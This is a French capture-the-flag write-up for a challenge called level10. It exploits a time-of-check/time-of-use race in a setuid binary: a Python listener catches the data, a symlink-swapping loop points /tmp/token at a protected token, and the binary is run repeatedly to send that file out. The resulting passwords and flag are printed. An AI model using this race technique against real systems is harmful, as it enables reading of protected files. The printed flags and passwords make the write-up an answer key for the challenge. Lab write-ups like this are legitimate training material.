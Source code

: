 ## 1. Analyser le fichier binaire level10

Le fichier **./level10** contient la ligne suivante : *"sends file to host if you have access to it"*.
Cette ligne suggère qu'un fichier peut être envoyé à un hôte, à condition d'avoir accès à cet hôte.

## 2. Creer un server qui écoute les connexions sur l'IP 192.168.56.101 et le port 6969

    import socket

    new_socket = socket.socket()
    new_socket.bind(('192.168.56.101', 6969))
    new_socket.listen(5)
    print("Serveur à l'écoute sur 192.168.56.101:6969")

    while True:
        conn, clt_address = new_socket.accept()

        while True:
            data = conn.recv(1024)
            if not data:
                break
            print(f'Données reçues : {data.decode("utf-8")}')
        
        conn.close()

## 3. Boucle pour rediriger le lien symbolique (access vulnerabilite)

On profite du moment entre le check des droits fichier et l'ouverture de fichier pour changer le fichier

    while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/user/level10/token /tmp/token; done

## 4. Boucle pour sur l'executable pour ouvrir le fichier tmp

   while true; do /home/user/level10/level10 /tmp/token 192.168.56.101 ;done

## 5. Resultat

    On recoit le message du client qui ouvre le fichier: 

    Received connection request from ('192.168.56.101', 38905)
    Received data: woupa2yuojeeaaed06riuj63c


## 6. Connexion

su flag10

    Mot de passe : woupa2yuojeeaaed06riuj63c
    Commande pour obtenir le flag : getflag
    Résultat : feulo4b72j7edeahuete3no7c

su level11

    Mot de passe : feulo4b72j7edeahuete3no7c